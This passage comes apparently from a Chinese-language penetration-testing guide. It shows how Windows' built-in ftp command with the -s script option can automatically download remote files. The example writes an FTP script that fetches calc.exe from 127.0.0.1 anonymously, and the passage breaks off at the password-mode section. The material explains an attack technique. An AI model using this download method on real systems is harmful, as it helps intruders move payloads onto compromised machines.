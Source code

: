 ![HTTPS&#x4E0B;&#x8F7D;](../../.gitbook/assets/image%20%28407%29.png)

## 3、FTP下载

ftp命令也是全版本Windows系统都默认包含的，其中-s参数可以指定包含 FTP 命令的文本文件；命令在 FTP 启动后自动运行，可以被利用自动下载远程文件

### 1、匿名模式

```text
## 写入ftp脚本

echo open 127.0.0.1 21> ftp.txt
echo binary >> ftp.txt
echo get calc.exe >> ftp.txt
echo bye >> ftp.txt

## ftp命令调用
# -A 使用匿名模式，-s:指定ftp脚本

ftp -A -s:ftp.txt
```

![](../../.gitbook/assets/image%20%28381%29.png)

### 2、密码模式
